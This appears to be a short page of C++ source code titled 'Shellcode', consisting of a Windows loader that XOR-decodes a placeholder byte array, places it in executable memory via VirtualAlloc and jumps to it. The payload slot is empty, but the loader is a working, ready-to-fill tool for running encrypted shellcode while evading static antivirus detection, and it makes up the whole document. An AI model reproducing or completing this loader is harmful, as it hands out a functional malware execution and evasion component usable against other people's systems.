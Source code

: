 # Shellcode

#include <windows.h>
#include <iostream>
int main(int argc, char **argv) {
    char b[] = {/* your XORd with key of 'x' shellcode goes here i.e. 0x4C,0x4F, 0x4C */};
    char c[sizeof b];
    for (int i = 0; i < sizeof b; i++) {c[i] = b[i] ^ 'x';}
    void *exec = VirtualAlloc(0, sizeof c, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, c, sizeof c);
    ((void(*)())exec)();
}
